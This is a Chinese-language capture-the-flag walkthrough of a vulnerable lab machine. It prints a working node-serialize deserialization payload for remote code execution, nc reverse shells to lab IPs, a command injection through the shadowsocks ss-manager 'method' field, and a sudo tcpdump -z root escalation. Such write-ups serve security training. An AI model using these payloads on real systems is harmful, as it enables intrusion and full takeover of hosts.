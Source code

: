 # mynew
burpsuit流量分析 编码解码
nojs反序列化序列化
ss-manager
sudo tcpdump 提权


# 
该项目环境也是可以直接显示IP地址！

1、nmap -p- 10.211.55.52
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
666/tcp open  http    Node.js Express framework


2、web信息枚举

Under Construction, Come Back Later!
正在建设中，稍后再来！

dirb nikto都爆破不出来，那么就进行BP流量包分析！


3、Burpsuite分析

Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D
这里的%3D是url编码：=

base64解码：
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMTIn0}
{} iief立即函数调用

存在u32t4o3tb3gg431fs34ggdgchjwnza0l=值！

从错误的信息可以看出 Nodeadmin 和 Node-Serialize 正在目标应用程序上使用

发现Web服务正在使用JSON，并且Nmap扫描中有Node.js框架

谷歌搜索Node-Serialize exploit！


4、Node.js反序列化


----------熟悉了解php序列化和反序列化----------
Java、PHP、Ruby和Python有相当多的反序列化问题！

serialize：序列化
https://www.php.net/serialize
unserialize：反序列化
https://www.php.net/manual/zh/function.unserialize.php

PHP允许对象序列化。序列化是一个允许保存对象并在以后重用它的过程。例如，可以保存一个包含一些用户信息的对象，然后再使用它。

为了序列化一个对象，需要调用“序列化”函数。它将返回一个字符串表示形式，可以通过调用“unserialize”函数重新创建新的对象来重用它。

首先需要知道一点，序列化后在反序列化数据，该数据是要经过程序是：反序列化->序列化->存储调用

unserialize()通过传递带有立即调用函数表达式(IIFE)的序列化JavaScript的对象，可以利用传递到节点中的序列化模块的函数，使得不受信任的数据来实现任意代码执行。
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

IIFE：全称为立即调用函数表达式IIFE(Imdiately Invoked Function Expression)
但有时需要在定义函数之后，立即调用该函数（函数只使用一次）
https://segmentfault.com/a/1190000015089341
参考文章知道通过()可以使得一个函数表达式立即执行！

深入熟悉php注入：
https://securitycafe.ro/2015/01/05/understanding-php-object-injection/

开始利用！
--------------------------------------------------
说存在反序列化漏洞利用，这边先测试下是否存在用，反序列化函数试试：构建参数
{"username":"Admin"}
base64编码：eyJ1c2VybmFtZSI6IkFkbWluIn0=

Send回显：Hello Admin

在opsecx上面连接中，存在利用的payload：
------------------------------------------
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}

var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
------------------------------------------

修改下：
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('whoami', (error, stdout, stderr) =>{ console.log(stdout);});}()"}
或者：
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('whoami',(e,out,err)=>{console.log(out);}); }()"}

这里加入了返回参数：return
_ ND_FUNC _ function()：在本地执行一个函数
child_process是node.js中的一个模块，它以类似于popen()的方式生成子进程。
child_process.exec()方法：此方法在控制台中运行命令并缓冲输出
它指定字符串Shell执行命令（在Linux上默认：/bin/sh）

当前用户为nodeadmin！

nc -e /bin/bash 10.211.55.19 6666 
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e /bin/bash 192.168.139.131 6665', (error, stdout, stderr) =>{ console.log(stdout);});}()"}
```


5、内部信息收集

linpeas.sh枚举：

1）js源码
/bin/node /home/nodeadmin/.web/server.js
/usr/bin/crontab
@reboot /bin/node /home/nodeadmin/.web/server.js &
server.js就是咱们反序列化的根源代码文件！

2）存在可写入文件
You have write privileges over /etc/profile.d/modules.sh
/etc/profile.d/modules.csh
该文件有写入的权限！

3）存在SS-manager
fireman    861  0.0  0.0  37060  3648 ?        Ss   03:05   0:00  _ /usr/local/bin/ss-manager




6、提权

ss-manager是Shadowsocks-manager的缩写

Shadowsocks-libev是用于嵌入式的服务和安全SOCKS5作为代理，ss-manager用于控制多个用户的shadowsocks服务器，并在需要时生成新服务器，就是能创建新服务去利用！

payload：
https://github.com/shadowsocks/shadowsocks-libev/issues/1734
https://www.exploit-db.com/exploits/43006

nc -u 127.0.0.1 8839
添加：
{"server_port":8003, "password":"test", "method":"||touch /tmp/evil||"}
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 10.211.55.19 4455 ||"}

执行发现：
/usr/local/bin/ss-manager
 2022-03-15 03:20:05 INFO: using the default manager address: 127.0.0.1:8839
运行在8839端口上！

nc枚举后发现是UDP端口：
nc -u 127.0.0.1 8839
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.139.131  1234 ||"}
成功拿到firename的shell！


sudo -l 
User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump


二进制文件的列表：https://gtfobins.github.io/
https://gtfobins.github.io/gtfobins/tcpdump/

echo "nc -e /bin/bash 192.168.139.131 9988" > zc
chmod +x zc
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/zc -Z root
--------------
-i : 指定监听的网络接口
-w : 直接将包写入文件中，并不分析和打印出来
-W ：与-C选项一起使用时，这会将创建的文件数量限制为指定的数字，并从头开始覆盖文件，从而创建“旋转”缓冲区。另外，它将命名带有足够前导0的文件以支持最大数量的文件，使它们能够正确排序。与-G选项一起使用时，这将限制创建的旋转转储文件的数量，在达到限制时以状态0退出。如果与-C一起使用，则行为将导致每个时间片的循环文件。
-G：如果指定，则每rotate_seconds秒旋转使用-w选项指定的转储文件。保存文件将具有由-w指定的名称，该名称 应包含由strftime（3）定义的时间格式。如果没有指定时间格式，则每个新文件都将覆盖前一个。如果与-C选项一起使用，则文件名将采用“ file <count>”的形式。
-z :  与-C或-G选项一起使用，这将使tcpdump运行“ 命令文件 ”，其中文件是每次旋转后关闭的保存文件。例如，指定-z gzip或-z bzip2将使用gzip或bzip2压缩每个保存文件。
请注意，tcpdump将与捕获并行地运行命令，使用最低优先级，这样不会干扰捕获过程。
如果你想使用一个本身带有标志或不同参数的命令，你总是可以编写一个shell脚本，将savefile的名字作为唯一的参数，使标志和参数安排并执行你想要的命令。
-Z : 删除权限（如果是root）并将用户标识更改为用户，将组标识更改为主要用户组。这种行为默认是启用的（-Z tcpdump），可以通过-Z root来禁用。
--------------


成功获得root权限！

































































































